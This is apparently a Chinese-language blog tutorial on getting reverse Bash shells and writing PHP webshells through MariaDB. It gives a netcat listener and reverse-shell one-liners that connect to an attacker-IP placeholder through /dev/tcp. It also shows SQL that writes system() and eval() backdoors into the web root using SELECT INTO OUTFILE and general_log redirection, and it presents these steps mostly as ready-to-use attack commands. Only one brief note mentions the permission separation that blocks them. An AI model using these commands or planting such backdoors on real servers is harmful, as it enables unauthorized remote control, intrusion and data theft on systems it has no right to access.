 ```yaml
---
title: 获取 WebShell 和反弹 Bash
date: 2021-04-28 22:23:26
updated:
category: [网络安全]
tags: [nc, 渗透, Bash]
mermaid:
index_img: ../img/cover_reverse_shell.jpg
---
```


旧文整理：WebShell（网络后门）通过 Web 服务器获取控制权限；反弹 Bash 通过主动连接攻击者的主机来建立一个交互式的 Shell 会话。

<!--more -->

## 反弹 BASH

与 SSH 的区别在于，可以让目标主机主动连接黑客的主机，从而绕过防火墙的限制。

### 实现方式

最常用的反弹 Bash 方式是利用 nc（netcat）工具，黑客在自己电脑上监听端口

```bash
nc -lvnp < 端口 >
```

- `-l`: 监听模式。
- `-v`: 显示详细的信息。
- `-n`: 不进行域名解析。
- `-p < 端口 >`: 监听的端口号。

在目标主机执行

```shell
bash -i >& /dev/tcp/< 攻击者 IP>/< 端口 > 0>&1
```

- `-i`: 交互式 shell

- `&>`: 将标准输出和错误进行重定向

- `/dev/tcp/ip/port`: bash 建立 socket 的一种特殊写法，除此之外还有 udp

- `<&1`: 把标准输入重定向到标准输出，其他写法 `0>&1`


{% note primary %}
什么？你要问我都能连接到靶机执行指令了还要什么 nc？哼哼，黑客通常是使用各种漏洞连接到靶机，使用 nc 只是为了更方便的执行系统指令。

比如利用数据库漏洞执行 nc 反弹 bash

```shell
system bash -c 'bash -i &> /dev/tcp/{外部机器 IP}/{端口} <&1'
```
{% endnote %}

## Web Shell

利用 Web 服务器漏洞执行 shell 指令，下面演示利用 PHP + MariaDB 写入一个后门文件。

### 利用 secure_file_priv

主要用于限制数据库对文件系统的访问。它规定 MySQL 服务器可以进行文件导入导出操作的目录。

```sql
MariaDB root@(none):(none)> show variables like '% secure%'
| Variable_name            | Value   |
|--------------------------|---------|
| require_secure_transport | OFF     |
| secure_auth              | ON      |
| secure_file_priv         |         |
| secure_timestamp         | NO      |
```

- 空字符串（''）： 不限制导入导出目录，MySQL 可以在任意目录进行文件操作。
- 指定目录： 只能在指定的目录进行导入导出操作。例如：secure_file_priv='/var/lib/mysql'
- NULL： 禁止所有的文件导入导出操作，包括 LOAD DATA INFILE、SELECT ... INTO OUTFILE 和 LOAD_FILE () 函数。

然后查看用户是否具有 IO 权限

```sql
select group_concat (user,0x3a,file_priv) from mysql.user;
```

执行代码将后门输出到服务器

```sql
select "<?php @system ($_GET ['cmd']);?>" into outfile '/srv/http/houmen.php';
```

接下来就可以利用这个文件为所欲为啦

![](https://cdn.jsdelivr.net/gh/yangchaohe/yangchaohe.github.io@static/../img/article/2021/webshell.jpg)

### 利用 general_log

如果上面的 `secure_file_priv` 规定了输出目录或者是 NULL，还可以使用 `general_log` 的方法来写 shell，它记录所有基础日志，默认关闭状态。

1. 模糊查找关于 general 的信息

```sql
MariaDB root@(none):(none)> show variables like '% general%'
| Variable_name    | Value            |
|------------------|------------------|
| general_log      | OFF              |
| general_log_file |                  |
```

2. 开启 general_log，设置路径

```sql
MariaDB root@(none):(none)> set global general_log = 1;
MariaDB root@(none):(none)> set global general_log_file = '/srv/http/hm.php';
MariaDB root@(none):(none)> show variables like '% general%'
| Variable_name    | Value            |
|------------------|------------------|
| general_log      | ON               |
| general_log_file | /srv/http/hm.php |
```

3. 写入数据

```sql
MariaDB root@(none):(none)> select "<?php @eval ($_GET ['command']);?>"
```

```php
> sudo cat /srv/http/hm.php
/usr/bin/mariadbd, Version: 10.5.9-MariaDB (Arch Linux). started with:
Tcp port: 3306  Unix socket: /run/mysqld/mysqld.sock
Time                Id Command  Argument
210429 17:29:36      3 Query    select "<?php @system ($_GET ['cmd']);?>"
```

{% note danger %}
如果数据库用户权限被严格管控了 IO，那么将无法实现上述步骤，比如在 Linux 里面，httpd 的用户是 http，mariadb 的用户是 mysql，默认情况下，mysql 无法写入，httpd 无法读取
{% endnote %}

## 总结

后端只要满足三个条件就可以反弹 shell

- 支持 tcp 链接
- 支持 IO 重定向
- 可以调用系统命令

## 参考

- [常见数据库写入 Webshell 汇总](https://www.ascotbe.com/2020/07/21/DatabaseWriteWebshell/#post-comment)
- [bash -i >& /dev/tcp/localhost/8080 0>&1 的含义](https://becivells.github.io/2019/01/bash_i_dev_tcp/)